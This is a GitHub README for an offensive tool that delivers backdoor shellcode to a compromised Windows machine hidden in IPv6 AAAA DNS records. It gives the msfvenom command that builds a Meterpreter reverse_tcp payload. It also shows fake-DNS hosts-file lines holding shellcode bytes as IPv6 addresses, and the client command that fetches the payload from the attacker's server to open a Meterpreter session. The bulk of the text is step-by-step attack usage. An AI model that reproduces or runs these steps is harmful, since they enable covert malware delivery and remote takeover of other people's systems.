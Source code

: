 # NativePayload_IP6DNS
Published by Damon Mohammadbagher

this tool working like NativePayload_DNS , but in this case this tool working by IPv6 Address and AAAA records for Transferring Backdoor payloads by DNS Traffic ;)


note : this code supported only 990 bytes (99 lines IPV6 ADDRESS foreach 10 bytes) for Payloads , for changing this value you should change source code

note : {fe80:1111:}{fc48:83e4:f0e8:cc00:0000}{:ae0} {test.domain.com}

note : 10 bytes Payload ==> {fc48:83e4:f0e8:cc00:0000} and {:ae0} is payload counter or ID 


Example: msfvenum --arch x86_64 --platform windows -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.113 -f c > /payload_string.txt

Replace your Payload_strings.txt file  from "\0xfc\0x48\0x83..." to "fc4883..."

syntax 1 : NativePayload_IP6DNS.exe null "payload string"

Description 1 : Making Hosts files for Linux Dns Server Like Dnsmasq or dnsspoof tools , copy output for this command to DNS Hosts file in linux
you can use Msfvenom tool like example and copy your payload in "payload string"

Example : payload string ==> fc4883e4f0e8cc000000415141505251564831d2ae1

Example: NativePayload_IP6DNS.exe null "payload string" > /dnsmasq.hosts

after this command you have something like these lines in your Hosts file :

Example : /etc/dnsmasq.hosts or /etc/hosts "depend on your configuration for dnsmasq or dnsspoof tools 

fe80:1111:fc48:83e4:f0e8:cc00:0000:ae0 test.domain.com

fe80:1111:4151:4150:5251:5648:31d2:ae1 test.domain.com

fe80:1111:6548:8b52:6048:8b52:1848:ae2 test.domain.com

fe80:1111:8b52:2048:8b72:5048:0fb7:ae3 test.domain.com

fe80:1111:4a4a:4d31:c948:31c0:ac3c:ae4 test.domain.com

fe80:1111:617c:022c:2041:c1c9:0d41:ae5 test.domain.com

.

.

.

fe80:1111:85f6:75b4:41ff:e758:6a00:ae49 test.domain.com

fe80:1111:5949:c7c2:f0b5:a256:ffd5:ae50 test.domain.com





syntax 2 : NativePayload_IP6DNS.exe Payload

description 2 : this switch is for making sample payload for your hosts file


syntax 3 : NativePayload_IP6DNS.exe "FQDN" "Fake_DNS_Server"

description 3 : after making your payloads and copy that in your fake_DNS_Server by dnsmasq or dnsspoof and starting fakeDNSServer , now you can start transferring your Payloads From FakeDNSServer to your Infected system by NativePayload_IP6DNS.exe tool

Example : NativePayload_IP6DNS.exe  test.domain.com  192.168.1.113

note : in this case 192.168.1.113 is your FakeDNSServer also this is your Metasploit: Meterpreter/Listener.

you should have meterpreter session after 1 DNS Response from FakeDNSserver to Client (Backdoor system)

Article : Transferring Backdoor Payloads by DNS AAAA records and IPv6 Address:

link 0: https://www.linkedin.com/pulse/transferring-backdoor-payloads-dns-aaaa-records-ipv6-mohammadbagher

link 1: https://www.peerlyst.com/posts/transferring-backdoor-payloads-by-dns-aaaa-records-and-ipv6-address-damon-mohammadbagher



